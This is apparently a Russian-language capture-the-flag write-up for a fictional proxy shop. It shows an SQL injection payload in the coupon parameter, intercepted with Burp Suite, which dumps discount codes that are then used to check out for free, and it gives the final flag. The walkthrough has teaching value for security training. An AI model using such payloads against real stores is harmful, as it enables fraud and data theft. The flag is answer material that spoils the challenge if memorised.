


```text
Описание
Лучшие прокси на рынке высшего качества! Принимаем подарочные купоны и делаем скидки!
```
# Разведка и решение
Переходим на сайт и видим магазин прокси. Для начало добавим все товары в корзину и попробуем оплатить покупку.

Так у нас есть возможность оплатить без купона и с купоном. При оплате без купона у нас не хватает денег. Попробуем отправить запрос с рандомным значением купона и перехватим его в Burp Suite. Попробуем SQL инекцию в параметре купона.
```SQL
coupon=FLAG'+OR+1=1--
```
Вывод
```HTML
Введите действующий код купона.
<pre>
cbd1362ac94fbcd4
20
20%

0e8339d00a2da7c4
30
30%

7f07ff08b0f4b996
100
100%
</pre>
```
У нас вывелись купоны на разные % . Попробуем повторно оплатить товар, но с купоном ``7f07ff08b0f4b996``. После этого нас перекидывает на страницу с прокси.

Среди них лежит наш флаг.
# Итоговый Flag
```text
DUCKERZ{sql_inj3c7ion_prox1_st0re}
```